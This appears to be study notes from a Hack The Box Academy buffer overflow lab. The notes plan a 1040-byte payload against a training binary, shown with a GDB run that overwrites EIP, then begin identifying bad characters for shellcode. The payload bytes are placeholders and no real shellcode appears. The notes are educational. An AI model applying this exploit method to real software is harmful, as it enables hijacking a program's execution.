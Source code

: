 1. We need a total of 1040 bytes to get to the `EIP`.
2. Here, we can use an additional `100 bytes` of `NOPs`
3. `150 bytes` for our `shellcode`.

  Shellcode - Length

```shell-session
   Buffer = "\x55" * (1040 - 100 - 150 - 4) = 786
     NOPs = "\x90" * 100
Shellcode = "\x44" * 150
      EIP = "\x66" * 4
```
Now we can try to find out how much space we have available to insert our shellcode.

#### GDB

  GDB

```shell-session
(gdb) run $(python -c 'print "\x55" * (1040 - 100 - 150 - 4) + "\x90" * 100 + "\x44" * 150 + "\x66" * 4')

The program being debugged has been started already.
Start it from the beginning? (y or n) y

Starting program: /home/student/bow/bow32 $(python -c 'print "\x55" * (1040 - 100 - 150 - 4) + "\x90" * 100 + "\x44" * 150 + "\x66" * 4')
Program received signal SIGSEGV, Segmentation fault.
0x66666666 in ?? ()
```

#### Buffer

![image](https://academy.hackthebox.com/storage/modules/31/buffer_overflow_7.png)


# Identifying Bad Characters

in unix OSs, binaries started with two-bytes containing a "magic number" that determines file type. In the beginning this was used to identify object files for different platforms. Gradually this concpet was transferred to other files, and now almost every files contains a magic number

such reserved characters also exit in applications, but they do not always occur and are not still the same. These reserved charvters, also known as bad characters can vary, but often we will see them as so:
- \\x00 - Null Byte
- \\x0A - Line Feed
- \\x0D - Carriage return
- \\xFF - Form Feed

Here we use the following character list to find out all characters we have to consider and to avoid when generating our shellcode.
0x551
#### Character List
